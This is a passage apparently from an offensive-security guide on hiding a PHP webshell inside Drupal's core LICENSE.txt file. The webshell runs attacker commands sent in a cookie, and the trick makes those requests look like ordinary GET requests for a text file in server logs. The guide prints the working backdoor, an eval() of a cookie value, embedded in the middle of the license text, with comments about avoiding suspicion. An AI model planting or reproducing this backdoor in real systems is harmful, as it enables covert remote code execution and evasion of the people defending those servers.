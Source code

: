 Why is this trick cool?

Because once the Webshell (that we’ll call LICENSE.txt ) is dropped onto the Web server, we can transmit our commands via `$_COOKIE` and in the Web server logs, this will show up as a legitimate GET request to a text file.

Why name our Webshell LICENSE.txt?

Simply because if we take the following file, for example [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (which is already present in the Drupal core), we have a file of 339 lines and 17.6 KB in size, which is perfect for adding a small snippet of PHP code in the middle (since the file is big enough).

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

File: Patched LICENSE.txt

```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
    if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
        eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
    } else {
        phpinfo();
    }
}

?>

  10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author
```